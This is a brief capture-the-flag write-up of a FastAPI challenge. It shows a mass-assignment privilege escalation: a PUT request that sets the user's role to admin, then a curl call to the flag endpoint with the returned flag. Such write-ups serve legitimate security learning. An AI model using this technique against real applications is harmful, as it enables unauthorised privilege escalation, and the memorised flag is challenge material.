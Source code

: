 This was a simple challenge on FastAPI. Which allow us to create a user,update a user and ask for a flag.

So after creating a user we update is account 
```bash
PUT /update/testuser HTTP/1.1
Content-Type: application/json

{
  "fname": "CTF",
  "lname": "Admin",
  "email": "admin@example.com",
  "gender": "male",
  "role": admin
}
```
Then we just hit the endpoint to get the flag
```bash
curl 'http://kashictf.iitbhucybersec.in:43401/flag/testuser'
{"message":"KashiCTF{m455_4551gnm3n7_ftw_tl22M5dUN}"}
```